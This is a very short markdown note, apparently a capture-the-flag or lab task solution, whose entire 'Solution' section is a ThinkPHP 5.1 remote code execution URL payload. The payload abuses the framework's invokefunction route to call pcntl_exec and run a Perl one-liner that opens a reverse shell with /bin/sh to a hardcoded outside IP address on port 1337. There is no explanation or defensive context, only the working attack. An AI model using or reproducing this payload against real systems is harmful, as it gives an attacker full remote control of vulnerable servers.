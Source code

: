 # Task.4.md

## Desc

ThinkPHP 5.1

## Solution

/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=pcntl_exec&vars[1][]=/usr/bin/perl&vars[1][1][]=-e&vars[1][1][]=use Socket;$i="185.186.247.40";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};